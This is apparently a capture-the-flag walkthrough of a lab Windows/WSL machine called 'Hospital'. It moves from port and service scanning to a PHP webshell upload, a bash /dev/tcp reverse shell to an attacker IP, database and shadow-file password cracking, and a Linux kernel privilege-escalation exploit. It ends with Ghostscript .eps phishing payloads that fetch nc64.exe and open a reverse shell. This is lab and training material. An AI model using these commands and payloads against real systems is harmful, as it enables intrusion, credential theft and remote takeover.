









Discover
nmap
sudo nmap -A -sV -sT -v -O -T4 -p- 10.10.11.241
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 9.0p1 Ubuntu 1ubuntu8.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 e14b4b3a6d18666939f7aa74b3160aaa (ECDSA)
|_ 256 96c1dcd8972095e7015f20a24361cbca (ED25519)
53/tcp open domain Simple DNS Plus
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2023-12-13 21:55:07Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Issuer: commonName=DC
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-09-06T10:49:03
| Not valid after: 2028-09-06T10:49:03
| MD5: 04b1adfe746a788e36c0802abdf33119
|_SHA-1: 17e58592278f4e8f8ce1554c35509c02282591e3
443/tcp open ssl/http Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
|_ssl-date: TLS randomness does not represent time
|_http-title: Hospital Webmail :: Welcome to Hospital Webmail
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after: 2019-11-08T23:48:47
| MD5: a0a44cc99e84b26f9e639f9ed229dee0
|_SHA-1: b0238c547a905bfa119c4e8baccaeacf36491ff6
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
| tls-alpn:
|_ http/1.1
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 924A68D347C80D0E502157E83812BB23
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open ldapssl?
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Issuer: commonName=DC
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-09-06T10:49:03
| Not valid after: 2028-09-06T10:49:03
| MD5: 04b1adfe746a788e36c0802abdf33119
|_SHA-1: 17e58592278f4e8f8ce1554c35509c02282591e3
1801/tcp open msmq?
2103/tcp open msrpc Microsoft Windows RPC
2105/tcp open msrpc Microsoft Windows RPC
2107/tcp open msrpc Microsoft Windows RPC
2179/tcp open vmrdp?
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Issuer: commonName=DC
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-09-06T10:49:03
| Not valid after: 2028-09-06T10:49:03
| MD5: 04b1adfe746a788e36c0802abdf33119
|_SHA-1: 17e58592278f4e8f8ce1554c35509c02282591e3
3269/tcp open globalcatLDAPssl?
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Issuer: commonName=DC
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-09-06T10:49:03
| Not valid after: 2028-09-06T10:49:03
| MD5: 04b1adfe746a788e36c0802abdf33119
|_SHA-1: 17e58592278f4e8f8ce1554c35509c02282591e3
3389/tcp open ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC.hospital.htb
| Issuer: commonName=DC.hospital.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-09-05T18:39:34
| Not valid after: 2024-03-06T18:39:34
| MD5: 0c8aebc23231590c2351ebbf4e1d1dbc
|_SHA-1: af104fad1b02073ae026eef48917734bf8e386a7
| rdp-ntlm-info:
| Target_Name: HOSPITAL
| NetBIOS_Domain_Name: HOSPITAL
| NetBIOS_Computer_Name: DC
| DNS_Domain_Name: hospital.htb
| DNS_Computer_Name: DC.hospital.htb
| DNS_Tree_Name: hospital.htb
| Product_Version: 10.0.17763
|_ System_Time: 2023-12-13T21:56:00+00:00
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
6404/tcp open msrpc Microsoft Windows RPC
6406/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
6409/tcp open msrpc Microsoft Windows RPC
6612/tcp open msrpc Microsoft Windows RPC
6619/tcp open msrpc Microsoft Windows RPC
6637/tcp open msrpc Microsoft Windows RPC
8080/tcp open http Apache httpd 2.4.55 ((Ubuntu))
|_http-server-header: Apache/2.4.55 (Ubuntu)
| http-title: Login
|_Requested resource was login.php
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
| http-cookie-flags:
| /:
| PHPSESSID:
|_ httponly flag not set
|_http-open-proxy: Proxy might be redirecting requests
9389/tcp open mc-nmf .NET Message Framingsmb (Nothing)
┌──(parallels㉿kali)-[~]
└─$ smbclient -N -L "//10.10.11.241/"
session setup failed: NT_STATUS_ACCESS_DENIED
┌──(parallels㉿kali)-[~]
└─$ smbclient -U '%' -N -L "//10.10.11.241/"
session setup failed: NT_STATUS_ACCESS_DENIEDldap (Nothing)
ldapsearch -H ldap://10.10.11.241 -x -s base '' "(objectClass=)" "" +
# extended LDIF
#
# LDAPv3
# base <> (default) with scope baseObject
# filter: (objectclass=*)
# requesting: (objectClass=*) * +
#
#
dn:
domainFunctionality: 7
forestFunctionality: 7
domainControllerFunctionality: 7
rootDomainNamingContext: DC=hospital,DC=htb
ldapServiceName: hospital.htb:dc$@HOSPITAL.HTB
isGlobalCatalogReady: TRUE
supportedSASLMechanisms: GSSAPI
supportedSASLMechanisms: GSS-SPNEGO
supportedSASLMechanisms: EXTERNAL
supportedSASLMechanisms: DIGEST-MD5
supportedLDAPVersion: 3
supportedLDAPVersion: 2
supportedLDAPPolicies: MaxPoolThreads
supportedLDAPPolicies: MaxPercentDirSyncRequests
supportedLDAPPolicies: MaxDatagramRecv
supportedLDAPPolicies: MaxReceiveBuffer
supportedLDAPPolicies: InitRecvTimeout
supportedLDAPPolicies: MaxConnections
supportedLDAPPolicies: MaxConnIdleTime
supportedLDAPPolicies: MaxPageSize
supportedLDAPPolicies: MaxBatchReturnMessages
supportedLDAPPolicies: MaxQueryDuration
supportedLDAPPolicies: MaxDirSyncDuration
supportedLDAPPolicies: MaxTempTableSize
supportedLDAPPolicies: MaxResultSetSize
supportedLDAPPolicies: MinResultSets
supportedLDAPPolicies: MaxResultSetsPerConn
supportedLDAPPolicies: MaxNotificationPerConn
supportedLDAPPolicies: MaxValRange
supportedLDAPPolicies: MaxValRangeTransitive
supportedLDAPPolicies: ThreadMemoryLimit
supportedLDAPPolicies: SystemMemoryLimitPercent
supportedControl: 1.2.840.113556.1.4.319
supportedControl: 1.2.840.113556.1.4.801
supportedControl: 1.2.840.113556.1.4.473
supportedControl: 1.2.840.113556.1.4.528
supportedControl: 1.2.840.113556.1.4.417
supportedControl: 1.2.840.113556.1.4.619
supportedControl: 1.2.840.113556.1.4.841
supportedControl: 1.2.840.113556.1.4.529
supportedControl: 1.2.840.113556.1.4.805
supportedControl: 1.2.840.113556.1.4.521
supportedControl: 1.2.840.113556.1.4.970
supportedControl: 1.2.840.113556.1.4.1338
supportedControl: 1.2.840.113556.1.4.474
supportedControl: 1.2.840.113556.1.4.1339
supportedControl: 1.2.840.113556.1.4.1340
supportedControl: 1.2.840.113556.1.4.1413
supportedControl: 2.16.840.1.113730.3.4.9
supportedControl: 2.16.840.1.113730.3.4.10
supportedControl: 1.2.840.113556.1.4.1504
supportedControl: 1.2.840.113556.1.4.1852
supportedControl: 1.2.840.113556.1.4.802
supportedControl: 1.2.840.113556.1.4.1907
supportedControl: 1.2.840.113556.1.4.1948
supportedControl: 1.2.840.113556.1.4.1974
supportedControl: 1.2.840.113556.1.4.1341
supportedControl: 1.2.840.113556.1.4.2026
supportedControl: 1.2.840.113556.1.4.2064
supportedControl: 1.2.840.113556.1.4.2065
supportedControl: 1.2.840.113556.1.4.2066
supportedControl: 1.2.840.113556.1.4.2090
supportedControl: 1.2.840.113556.1.4.2205
supportedControl: 1.2.840.113556.1.4.2204
supportedControl: 1.2.840.113556.1.4.2206
supportedControl: 1.2.840.113556.1.4.2211
supportedControl: 1.2.840.113556.1.4.2239
supportedControl: 1.2.840.113556.1.4.2255
supportedControl: 1.2.840.113556.1.4.2256
supportedControl: 1.2.840.113556.1.4.2309
supportedControl: 1.2.840.113556.1.4.2330
supportedControl: 1.2.840.113556.1.4.2354
supportedCapabilities: 1.2.840.113556.1.4.800
supportedCapabilities: 1.2.840.113556.1.4.1670
supportedCapabilities: 1.2.840.113556.1.4.1791
supportedCapabilities: 1.2.840.113556.1.4.1935
supportedCapabilities: 1.2.840.113556.1.4.2080
supportedCapabilities: 1.2.840.113556.1.4.2237
subschemaSubentry: CN=Aggregate,CN=Schema,CN=Configuration,DC=hospital,DC=htb
serverName: CN=DC,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configurat
ion,DC=hospital,DC=htb
schemaNamingContext: CN=Schema,CN=Configuration,DC=hospital,DC=htb
namingContexts: DC=hospital,DC=htb
namingContexts: CN=Configuration,DC=hospital,DC=htb
namingContexts: CN=Schema,CN=Configuration,DC=hospital,DC=htb
namingContexts: DC=DomainDnsZones,DC=hospital,DC=htb
namingContexts: DC=ForestDnsZones,DC=hospital,DC=htb
isSynchronized: TRUE
highestCommittedUSN: 459094
dsServiceName: CN=NTDS Settings,CN=DC,CN=Servers,CN=Default-First-Site-Name,CN
=Sites,CN=Configuration,DC=hospital,DC=htb
dnsHostName: DC.hospital.htb
defaultNamingContext: DC=hospital,DC=htb
currentTime: 20231213220431.0Z
configurationNamingContext: CN=Configuration,DC=hospital,DC=htb
# search result
search: 2
result: 0 Success
# numResponses: 2
# numEntries: 1ldapsearch -H ldap://10.10.11.236:3269 -x -b DC=manager,DC=htb
NOPErpc (Nothing)
rpcclient -U "" 10.10.11.241
Cannot connect to server. Error was NT_STATUS_LOGON_FAILUREWeb
https://10.10.11.241/ → webmail
nikto scan
nikto -h https://10.10.11.241/ -C All
+ Server: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
+ /: Retrieved x-powered-by header: PHP/8.0.28.
+ /: The site uses TLS and the Strict-Transport-Security HTTP header is not defined. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Strict-Transport-Security
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ Hostname '10.10.11.241' does not match certificate's names: localhost. See: https://cwe.mitre.org/data/definitions/297.html
+ PHP/8.0.28 appears to be outdated (current is at least 8.1.5), PHP 7.4.28 for the 7.4 branch.
+ OpenSSL/1.1.1t appears to be outdated (current is at least 3.0.7). OpenSSL 1.1.1s is current for the 1.x branch and will be supported until Nov 11 2023.
+ /: Web Server returns a valid response with junk HTTP methods which may cause false positives.
+ /: DEBUG HTTP verb may show server debugging information. See: https://docs.microsoft.com/en-us/visualstudio/debugger/how-to-enable-debugging-for-aspnet-applications?view=vs-2017
+ /: HTTP TRACE method is active which suggests the host is vulnerable to XST. See: https://owasp.org/www-community/attacks/Cross_Site_Tracing
+ /icons/: Directory indexing found.
+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
+ 8858 requests: 0 error(s) and 11 item(s) reported on remote host
+ End Time: 2023-12-13 16:45:53 (GMT1) (1979 seconds)
http://10.10.11.241:8080/login.php → hospital login
nikto scan

Initial foodhold
HTTP 8080
- Sign up
request
POST /register.php HTTP/1.1 Host: 10.10.11.241:8080 User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8 Accept-Language: en-US,en;q=0.5 Accept-Encoding: gzip, deflate, br Referer: http://10.10.11.241:8080/register.php Content-Type: application/x-www-form-urlencoded Content-Length: 49 Origin: http://10.10.11.241:8080 Connection: close Cookie: PHPSESSID=5s477qn1258dm2i3vaj593qqee Upgrade-Insecure-Requests: 1 username=test&password=test&confirm_password=test - We now have access to the site

- Try uploading a file
- Find out where it is uploaded
- Just guessed →
http://10.10.11.241:8080/uploads/<filename>
- Just guessed →
- Upload a php file for a reverse shell
- bypass .php file upload restriction → seems .phar files work
- Using p0wnyshell
- bypass .php file upload restriction → seems .phar files work
- We have a webshell as www-data

- Upgrade php shell to bash
nc -lvp 4444 bash -c 'exec bash -i &>/dev/tcp/10.10.16.6/4444 <&1' python3 -c 'import pty; pty.spawn("/bin/bash")' CTRL+Z stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
From www-data to user
Mysql
- Found and interesting config file:
www-data@webserver:/var/www/html$ cat config.php <?php /* Database credentials. Assuming you are running MySQL server with default setting (user 'root' with no password) */ define('DB_SERVER', 'localhost'); define('DB_USERNAME', 'root'); define('DB_PASSWORD', 'my$qls3rv1c3!'); define('DB_NAME', 'hospital'); /* Attempt to connect to MySQL database */ $link = mysqli_connect(DB_SERVER, DB_USERNAME, DB_PASSWORD, DB_NAME); // Check connection if($link === false){ die("ERROR: Could not connect. " . mysqli_connect_error()); } ?>Found credentials → root:my$qls3rv1c3!
- Find out where mysql database is stored
netstat -tulpntcp 0 0 127.0.0.54:53 0.0.0.0:* LISTEN - tcp 0 0 127.0.0.1:3306 0.0.0.0:* LISTEN - tcp 0 0 127.0.0.53:53 0.0.0.0:* LISTEN - tcp6 0 0 :::22 :::* LISTEN - tcp6 0 0 :::80 :::* LISTEN - udp 0 0 127.0.0.54:53 0.0.0.0:* - udp 0 0 127.0.0.53:53 0.0.0.0:* -Local it seems
- Get access to db
www-data@webserver:/var/www$ mysql -u root -p -D hospital Enter password: MariaDB [hospital]>show tables;
+--------------------+ | Tables_in_hospital | +--------------------+ | users | +--------------------+select * from users;
+----+----------+--------------------------------------------------------------+---------------------+ | id | username | password | created_at | +----+----------+--------------------------------------------------------------+---------------------+ | 1 | admin | $2y$10$caGIEbf9DBF7ddlByqCkrexkt0cPseJJ5FiVO1cnhG.3NLrxcjMh2 | 2023-09-21 14:46:04 | | 2 | patient | $2y$10$a.lNstD7JdiNYxEepKf1/OZ5EM5wngYrf.m5RxXCgSud7MVU6/tgO | 2023-09-21 15:35:11 | | 3 | test | $2y$10$YuzYdVFh.J/pLmEdFT/ife1oY3vE3QYG3QT4O8XNS0NUL2iYB0TKa | 2023-12-13 22:44:03 | +----+----------+--------------------------------------------------------------+---------------------+ - Cracking hashes
hashcat -m 3200 '$2y$10$caGIEbf9DBF7ddlByqCkrexkt0cPseJJ5FiVO1cnhG.3NLrxcjMh2' /usr/share/wordlists/rockyou.txt$2y$10$caGIEbf9DBF7ddlByqCkrexkt0cPseJJ5FiVO1cnhG.3NLrxcjMh2:123456So the credentials are admin:123456
www-data to root
- I have a feeling that were in some docker container or WSL, based on the ports we discovered earlier, this should be a windows system.
- Running linpeas
OS version
Linux version 5.19.0-35-generic (buildd@lcy02-amd64-014) (x86_64-linux-gnu-gcc-12 (Ubuntu 12.2.0-3ubuntu1) 12.2.0, GNU ld (GNU Binutils for Ubuntu) 2.39) #36-Ubuntu SMP PREEMPT_DYNAMIC Fri Feb 3 18:36:56 UTC 2023 Distributor ID: Ubuntu Description: Ubuntu 23.04 Release: 23.04 Codename: lunar
- Running linpeas
- Try privilege escalation to root using CVE-2023-32629
- I found a public exploit on github
- Run the exploit script

- We are root
mysql?
-rw------- 1 root root 544 Sep 21 14:26 /etc/mysql/debian.cnf user = root user = rootssh keys
-rw-r--r-- 1 root root 604 Sep 12 17:31 /etc/ssh/ssh_host_dsa_key.pub -rw-r--r-- 1 root root 176 Sep 12 17:31 /etc/ssh/ssh_host_ecdsa_key.pub -rw-r--r-- 1 root root 96 Sep 12 17:31 /etc/ssh/ssh_host_ed25519_key.pub -rw-r--r-- 1 root root 568 Sep 12 17:31 /etc/ssh/ssh_host_rsa_key.pub PermitRootLogin yes PasswordAuthentication yes UsePAM yes ══╣ Possible private SSH keys were found! /etc/ssh/ssh_host_ecdsa_key /etc/ssh/ssh_host_rsa_key /etc/ssh/ssh_host_ed25519_key /etc/ssh/ssh_host_dsa_key/etc/passwd
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin _apt:x:42:65534::/nonexistent:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin messagebus:x:100:106::/nonexistent:/usr/sbin/nologin systemd-resolve:x:996:996:systemd Resolver:/:/usr/sbin/nologin pollinate:x:101:1::/var/cache/pollinate:/bin/false sshd:x:102:65534::/run/sshd:/usr/sbin/nologin syslog:x:103:109::/nonexistent:/usr/sbin/nologin uuidd:x:104:110::/run/uuidd:/usr/sbin/nologin tcpdump:x:105:111::/nonexistent:/usr/sbin/nologin tss:x:106:112:TPM software stack,,,:/var/lib/tpm:/bin/false landscape:x:107:113::/var/lib/landscape:/usr/sbin/nologin fwupd-refresh:x:108:114:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin drwilliams:x:1000:1000:Lucy Williams:/home/drwilliams:/bin/bash lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false mysql:x:109:116:MySQL Server,,,:/nonexistent:/bin/false/etc/shadow
root:$y$j9T$s/Aqv48x449udndpLC6eC.$WUkrXgkW46N4xdpnhMoax7US.JgyJSeobZ1dzDs..dD:19612:0:99999:7::: daemon:*:19462:0:99999:7::: bin:*:19462:0:99999:7::: sys:*:19462:0:99999:7::: sync:*:19462:0:99999:7::: games:*:19462:0:99999:7::: man:*:19462:0:99999:7::: lp:*:19462:0:99999:7::: mail:*:19462:0:99999:7::: news:*:19462:0:99999:7::: uucp:*:19462:0:99999:7::: proxy:*:19462:0:99999:7::: www-data:*:19462:0:99999:7::: backup:*:19462:0:99999:7::: list:*:19462:0:99999:7::: irc:*:19462:0:99999:7::: _apt:*:19462:0:99999:7::: nobody:*:19462:0:99999:7::: systemd-network:!*:19462:::::: systemd-timesync:!*:19462:::::: messagebus:!:19462:::::: systemd-resolve:!*:19462:::::: pollinate:!:19462:::::: sshd:!:19462:::::: syslog:!:19462:::::: uuidd:!:19462:::::: tcpdump:!:19462:::::: tss:!:19462:::::: landscape:!:19462:::::: fwupd-refresh:!:19462:::::: drwilliams:$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/:19612:0:99999:7::: lxd:!:19612:::::: mysql:!:19620::::::
Cracking shadow credentials
- Unshadow and crack hashes
unshadow passwd shadow > unshadowed.txtcontent
root:$y$j9T$s/Aqv48x449udndpLC6eC.$WUkrXgkW46N4xdpnhMoax7US.JgyJSeobZ1dzDs..dD:0:0:root:/root:/bin/bash daemon:*:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:*:2:2:bin:/bin:/usr/sbin/nologin sys:*:3:3:sys:/dev:/usr/sbin/nologin sync:*:4:65534:sync:/bin:/bin/sync games:*:5:60:games:/usr/games:/usr/sbin/nologin man:*:6:12:man:/var/cache/man:/usr/sbin/nologin lp:*:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:*:8:8:mail:/var/mail:/usr/sbin/nologin news:*:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:*:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:*:13:13:proxy:/bin:/usr/sbin/nologin www-data:*:33:33:www-data:/var/www:/usr/sbin/nologin backup:*:34:34:backup:/var/backups:/usr/sbin/nologin list:*:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:*:39:39:ircd:/run/ircd:/usr/sbin/nologin _apt:*:42:65534::/nonexistent:/usr/sbin/nologin nobody:*:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:!*:998:998:systemd Network Management:/:/usr/sbin/nologin systemd-timesync:!*:997:997:systemd Time Synchronization:/:/usr/sbin/nologin messagebus:!:100:106::/nonexistent:/usr/sbin/nologin systemd-resolve:!*:996:996:systemd Resolver:/:/usr/sbin/nologin pollinate:!:101:1::/var/cache/pollinate:/bin/false sshd:!:102:65534::/run/sshd:/usr/sbin/nologin syslog:!:103:109::/nonexistent:/usr/sbin/nologin uuidd:!:104:110::/run/uuidd:/usr/sbin/nologin tcpdump:!:105:111::/nonexistent:/usr/sbin/nologin tss:!:106:112:TPM software stack,,,:/var/lib/tpm:/bin/false landscape:!:107:113::/var/lib/landscape:/usr/sbin/nologin fwupd-refresh:!:108:114:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin drwilliams:$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/:1000:1000:Lucy Williams:/home/drwilliams:/bin/bash lxd:!:999:100::/var/snap/lxd/common/lxd:/bin/false mysql:!:109:116:MySQL Server,,,:/nonexistent:/bin/false- Try crackin ‘drwilliams’ hash
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txtUsing default input encoding: UTF-8 Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 ASIMD 2x]) Cost 1 (iteration count) is 5000 for all loaded hashes Will run 2 OpenMP threads Press 'q' or Ctrl-C to abort, almost any other key for status qwe123!@# (drwilliams) 1g 0:00:01:53 DONE (2023-12-13 18:41) 0.008834g/s 1893p/s 1893c/s 1893C/s raycharles..puccFound credentials drwilliams:qwe123!@#
- We can now ssh using drwilliams

From WSL to Windows
Roundcube webmail port 443
Using drwilliams credentials I am able to login on the webmail, where we find an interesting email.

Phishing attempt using an eps file
“Please make the design in an ".eps" file format so that it can be well visualized with GhostScript.” → the email mentions something about an eps file. After googling, i assumed this should be a hint to a command injection CVE.
https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection
- Download a random .eps image file
- Generate payloads
# Downloads netcat binary python3 CVE_2023_36664_exploit.py --inject --payload 'curl "http://10.10.16.6:88/nc64.exe" -o nc64.exe' --filename sample.eps # Executes netcat binary for reverse shell python3 CVE_2023_36664_exploit.py --inject --payload 'nc64.exe 10.10.16.6 5555 -e cmd.exe' --filename sample2.eps - Start listener
nc -lvp 5555 - Send 2 emails to drbrown containing the .esp files, we can see the file gets downloaded and we receive a connection on our listener 🙂

- In the Documents folder there is a ghostscript.bat file containing the user’s credentials
